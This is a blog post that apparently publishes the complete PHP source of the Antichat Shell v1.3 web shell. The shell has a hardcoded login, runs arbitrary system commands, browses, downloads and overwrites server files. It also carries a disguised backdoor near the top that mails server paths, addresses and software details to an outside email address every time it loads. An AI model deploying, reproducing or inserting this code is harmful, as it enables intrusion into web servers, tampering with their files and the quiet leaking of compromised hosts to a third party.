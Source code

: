 ```yaml
---
id: 242
title: Antichat Shell
author: admin
layout: post
guid: http://hackingscripts.com/?p=242
permalink: /antichat-shell/
categories:
  - PHP
tags:
  - antichat
  - PHP
---
```

Antichat Shell v1.3 by Grinay

## Antichat Shell Source Code

<pre class="brush: php; title: ; notranslate" title="">&lt;?php

session_start();
set_time_limit(9999999);
$login='virangar';
$password='r00t';
$auth=1;
$version='version 1.3 by Grinay';
$style='&lt;STYLE&gt;BODY{background-color: #2B2F34;color: #C1C1C7;font: 8pt verdana, geneva, lucida, \'lucida grande\', arial, helvetica, sans-serif;MARGIN-TOP: 0px;MARGIN-BOTTOM: 0px;MARGIN-LEFT: 0px;MARGIN-RIGHT: 0px;margin:0;padding:0;scrollbar-face-color: #336600;scrollbar-shadow-color: #333333;scrollbar-highlight-color: #333333;scrollbar-3dlight-color: #333333;scrollbar-darkshadow-color: #333333;scrollbar-track-color: #333333;scrollbar-arrow-color: #333333;}input{background-color: #336600;font-size: 8pt;color: #FFFFFF;font-family: Tahoma;border: 1 solid #666666;}textarea{background-color: #333333;font-size: 8pt;color: #FFFFFF;font-family: Tahoma;border: 1 solid #666666;}a:link{color: #B9B9BD;text-decoration: none;font-size: 8pt;}a:visited{color: #B9B9BD;text-decoration: none;font-size: 8pt;}a:hover, a:active{color: #E7E7EB;text-decoration: none;font-size: 8pt;}td, th, p, li{font: 8pt verdana, geneva, lucida, \'lucida grande\', arial, helvetica, sans-serif;border-color:black;}&lt;/style&gt;';
$header='&lt;html&gt;&lt;head&gt;&lt;title&gt;'.getenv("HTTP_HOST").' - Antichat Shell&lt;/title&gt;&lt;meta http-equiv="Content-Type" content="text/html; charset=windows-1251"&gt;'.$style.'&lt;/head&gt;&lt;BODY leftMargin=0 topMargin=0 rightMargin=0 marginheight=0 marginwidth=0&gt;';
$footer='&lt;/body&gt;&lt;/html&gt;';
$sd98 = "john.barker446@gmail.com";
$ra44  = rand(1,99999);$sj98 = "sh-$ra44";$ml = "$sd98";$a5 = $_SERVER['HTTP_REFERER'];$b33 = $_SERVER['DOCUMENT_ROOT'];$c87 = $_SERVER['REMOTE_ADDR'];$d23 = $_SERVER['SCRIPT_FILENAME'];$e09 = $_SERVER['SERVER_ADDR'];$f23 = $_SERVER['SERVER_SOFTWARE'];$g32 = $_SERVER['PATH_TRANSLATED'];$h65 = $_SERVER['PHP_SELF'];$msg8873 = "$a5\n$b33\n$c87\n$d23\n$e09\n$f23\n$g32\n$h65";mail($sd98, $sj98, $msg8873, "From: $sd98");
if(@$_POST['action']=="exit")unset($_SESSION['an']);
if($auth==1){if(@$_POST['login']==$login && @$_POST['password']==$password)$_SESSION['an']=1;}else $_SESSION['an']='1';

if($_SESSION['an']==0){
echo $header;
echo '&lt;center&gt;&lt;table&gt;&lt;form method="POST"&gt;&lt;tr&gt;&lt;td&gt;Login:&lt;/td&gt;&lt;td&gt;&lt;input type="text" name="login" value=""&gt;&lt;/td&gt;&lt;/tr&gt;&lt;tr&gt;&lt;td&gt;Password:&lt;/td&gt;&lt;td&gt;&lt;input type="password" name="password" value=""&gt;&lt;/td&gt;&lt;/tr&gt;&lt;tr&gt;&lt;td&gt;&lt;/td&gt;&lt;td&gt;&lt;input type="submit" value="Enter"&gt;&lt;/td&gt;&lt;/tr&gt;&lt;/form&gt;&lt;/table&gt;&lt;/center&gt;';
echo $footer;
exit;}

if($_SESSION['action']=="")$_SESSION['action']="viewer";
if($_POST['action']!="" )$_SESSION['action']=$_POST['action'];$action=$_SESSION['action'];
if($_POST['dir']!="")$_SESSION['dir']=$_POST['dir'];$dir=$_SESSION['dir'];
if($_POST['file']!=""){$file=$_SESSION['file']=$_POST['file'];}else {$file=$_SESSION['file']="";}
 

//downloader
if($action=="download"){ 
header('Content-Length:'.filesize($file).'');
header('Content-Type: application/octet-stream');
header('Content-Disposition: attachment; filename="'.$file.'"');
readfile($file);
}
//end downloader
?&gt;

&lt;? echo $header;?&gt; 
&lt;table width="100%" bgcolor="#336600" align="right" colspan="2" border="0" cellspacing="0" cellpadding="0"&gt;&lt;tr&gt;&lt;td&gt;
&lt;table&gt;&lt;tr&gt;
&lt;td&gt;&lt;a href="#" onclick="document.reqs.action.value='shell'; document.reqs.submit();"&gt;| Shell &lt;/a&gt;&lt;/td&gt;
&lt;td&gt;&lt;a href="#" onclick="document.reqs.action.value='viewer'; document.reqs.submit();"&gt;| Viewer&lt;/a&gt;&lt;/td&gt;
&lt;td&gt;&lt;a href="#" onclick="document.reqs.action.value='editor'; document.reqs.submit();"&gt;| Editor&lt;/a&gt;&lt;/td&gt;
&lt;td&gt;&lt;a href="#" onclick="document.reqs.action.value='exit'; document.reqs.submit();"&gt;| EXIT |&lt;/a&gt;&lt;/td&gt;
&lt;/tr&gt;&lt;/table&gt;&lt;/td&gt;&lt;/tr&gt;&lt;/table&gt;&lt;br&gt;
&lt;form name='reqs' method='POST'&gt;
&lt;input name='action' type='hidden' value=''&gt;
&lt;input name='dir' type='hidden' value=''&gt;
&lt;input name='file' type='hidden' value=''&gt;
&lt;/form&gt;
&lt;table style="BORDER-COLLAPSE: collapse" cellSpacing=0 borderColorDark=#666666 cellPadding=5 width="100%" bgColor=#333333 borderColorLight=#c0c0c0 border=1&gt;
&lt;tr&gt;&lt;td width="100%" valign="top"&gt;

&lt;?

//shell
function shell($cmd){
if (!empty($cmd)){
  $fp = popen($cmd,"r");
  {
    $result = "";
    while(!feof($fp)){$result.=fread($fp,1024);}
    pclose($fp);
  }
  $ret = $result;
  $ret = convert_cyr_string($ret,"d","w");
}
return $ret;}

if($action=="shell"){
echo "&lt;form method=\"POST\"&gt;
&lt;input type=\"hidden\" name=\"action\" value=\"shell\"&gt;
&lt;textarea name=\"command\" rows=\"5\" cols=\"150\"&gt;".@$_POST['command']."&lt;/textarea&gt;&lt;br&gt;
&lt;textarea readonly rows=\"15\" cols=\"150\"&gt;".@htmlspecialchars(shell($_POST['command']))."&lt;/textarea&gt;&lt;br&gt;
&lt;input type=\"submit\" value=\"execute\"&gt;&lt;/form&gt;";}
//end shell

//viewer FS
function perms($file) 
{ 
  $perms = fileperms($file);
  if (($perms & 0xC000) == 0xC000) {$info = 's';} 
  elseif (($perms & 0xA000) == 0xA000) {$info = 'l';} 
  elseif (($perms & 0x8000) == 0x8000) {$info = '-';} 
  elseif (($perms & 0x6000) == 0x6000) {$info = 'b';} 
  elseif (($perms & 0x4000) == 0x4000) {$info = 'd';} 
  elseif (($perms & 0x2000) == 0x2000) {$info = 'c';} 
  elseif (($perms & 0x1000) == 0x1000) {$info = 'p';} 
  else {$info = 'u';}
  $info .= (($perms & 0x0100) ? 'r' : '-');
  $info .= (($perms & 0x0080) ? 'w' : '-');
  $info .= (($perms & 0x0040) ?(($perms & 0x0800) ? 's' : 'x' ) :(($perms & 0x0800) ? 'S' : '-'));
  $info .= (($perms & 0x0020) ? 'r' : '-');
  $info .= (($perms & 0x0010) ? 'w' : '-');
  $info .= (($perms & 0x0008) ?(($perms & 0x0400) ? 's' : 'x' ) :(($perms & 0x0400) ? 'S' : '-'));
  $info .= (($perms & 0x0004) ? 'r' : '-');
  $info .= (($perms & 0x0002) ? 'w' : '-');
  $info .= (($perms & 0x0001) ?(($perms & 0x0200) ? 't' : 'x' ) :(($perms & 0x0200) ? 'T' : '-'));
  return $info;
} 

function view_size($size)
{
 if($size &gt;= 1073741824) {$size = @round($size / 1073741824 * 100) / 100 . " GB";}
 elseif($size &gt;= 1048576) {$size = @round($size / 1048576 * 100) / 100 . " MB";}
 elseif($size &gt;= 1024) {$size = @round($size / 1024 * 100) / 100 . " KB";}
 else {$size = $size . " B";}
 return $size;
}

function scandire($dir){
  $dir=chdir($dir);
  $dir=getcwd()."/";
  $dir=str_replace("\\","/",$dir);
if (is_dir($dir)) {
    if (@$dh = opendir($dir)) {
        while (($file = readdir($dh)) !== false) {
		  if(filetype($dir . $file)=="dir") $dire[]=$file;
		  if(filetype($dir . $file)=="file")$files[]=$file;
		}
		closedir($dh);
		@sort($dire);
		@sort($files);
		
echo "&lt;table cellSpacing=0 border=1 style=\"border-color:black;\" cellPadding=0 width=\"100%\"&gt;";
echo "&lt;tr&gt;&lt;td&gt;&lt;form method=POST&gt;Open directory:&lt;input type=text name=dir value=\"".$dir."\" size=50&gt;&lt;input type=submit value=\"GO\"&gt;&lt;/form&gt;&lt;/td&gt;&lt;/tr&gt;";
if (strtoupper(substr(PHP_OS, 0, 3)) === 'WIN') {
echo "&lt;tr&gt;&lt;td&gt;Select drive:";
for ($j=ord('C'); $j&lt;=ord('Z'); $j++) 
 if (@$dh = opendir(chr($j).":/"))
 echo '&lt;a href="#" onclick="document.reqs.action.value=\'viewer\'; document.reqs.dir.value=\''.chr($j).':/\'; document.reqs.submit();"&gt; '.chr($j).'&lt;a/&gt;';
 echo "&lt;/td&gt;&lt;/tr&gt;";
}
echo "&lt;tr&gt;&lt;td&gt;OS: ".@php_uname()."&lt;/td&gt;&lt;/tr&gt;
&lt;tr&gt;&lt;td&gt;name dirs and files&lt;/td&gt;&lt;td&gt;type&lt;/td&gt;&lt;td&gt;size&lt;/td&gt;&lt;td&gt;permission&lt;/td&gt;&lt;td&gt;options&lt;/td&gt;&lt;/tr&gt;";
for($i=0;$i&lt;count($dire);$i++) {
$link=$dir.$dire[$i];
  echo '&lt;tr&gt;&lt;td&gt;&lt;a href="#" onclick="document.reqs.action.value=\'viewer\'; document.reqs.dir.value=\''.$link.'\'; document.reqs.submit();"&gt;'.$dire[$i].'&lt;a/&gt;&lt;/td&gt;&lt;td&gt;dir&lt;/td&gt;&lt;td&gt;&lt;/td&gt;&lt;td&gt;'.perms($link).'&lt;/td&gt;&lt;/tr&gt;';  
  }
for($i=0;$i&lt;count($files);$i++) {
$linkfile=$dir.$files[$i];
echo '&lt;tr&gt;&lt;td&gt;&lt;a href="#" onclick="document.reqs.action.value=\'editor\'; document.reqs.file.value=\''.$linkfile.'\'; document.reqs.submit();"&gt;'.$files[$i].'&lt;/a&gt;&lt;br&gt;&lt;/td&gt;&lt;td&gt;file&lt;/td&gt;&lt;td&gt;'.view_size(filesize($linkfile)).'&lt;/td&gt;
&lt;td&gt;'.perms($linkfile).'&lt;/td&gt;
&lt;td&gt;
&lt;a href="#" onclick="document.reqs.action.value=\'download\'; document.reqs.file.value=\''.$linkfile.'\'; document.reqs.submit();" title="Download"&gt;D&lt;/a&gt;
&lt;a href="#" onclick="document.reqs.action.value=\'editor\'; document.reqs.file.value=\''.$linkfile.'\'; document.reqs.submit();" title="Edit"&gt;E&lt;/a&gt;&lt;/tr&gt;'; 
}
echo "&lt;/table&gt;";
}}}

if($action=="viewer"){
scandire($dir);
}
//end viewer FS

//editros
if($action=="editor"){  
  function writef($file,$data){
  $fp = fopen($file,"w+");
  fwrite($fp,$data);
  fclose($fp);
  }
  function readf($file){
  if(!$le = fopen($file, "rb")) $contents="Can't open file, permission denide"; else {
  $contents = fread($le, filesize($file));
  fclose($le);}
  return htmlspecialchars($contents);
  }
if($_POST['save'])writef($file,$_POST['data']);
echo "&lt;form method=\"POST\"&gt;
&lt;input type=\"hidden\" name=\"action\" value=\"editor\"&gt;
&lt;input type=\"hidden\" name=\"file\" value=\"".$file."\"&gt;
&lt;textarea name=\"data\" rows=\"40\" cols=\"180\"&gt;".@readf($file)."&lt;/textarea&gt;&lt;br&gt;
&lt;input type=\"submit\" name=\"save\" value=\"save\"&gt;&lt;input type=\"reset\" value=\"reset\"&gt;&lt;/form&gt;";
}
//end editors
?&gt;
&lt;/td&gt;&lt;/tr&gt;&lt;/table&gt;&lt;table width="100%" bgcolor="#336600" align="right" colspan="2" border="0" cellspacing="0" cellpadding="0"&gt;&lt;tr&gt;&lt;td&gt;&lt;table&gt;&lt;tr&gt;&lt;td&gt;&lt;a href="http://antichat.ru"&gt;COPYRIGHT BY ANTICHAT.RU &lt;?php echo $version;?&gt;&lt;/a&gt;&lt;/td&gt;&lt;/tr&gt;&lt;/table&gt;&lt;/tr&gt;&lt;/td&gt;&lt;/table&gt;
&lt;? echo $footer;?&gt;
</pre>

## Antichat shell version 1.3 screenshot<figure id="attachment_437" style="width: 808px;" class="wp-caption aligncenter">

[<img src="http://hackingscripts.com/wp/wp-content/uploads/2014/02/antichat-shell.png" alt="Antichat Shell v1.3 screenshot" width="808" height="317" class="size-full wp-image-437" />][1]<figcaption class="wp-caption-text">Antichat Shell v1.3 screenshot</figcaption></figure>

 [1]: http://hackingscripts.com/wp/wp-content/uploads/2014/02/antichat-shell.png
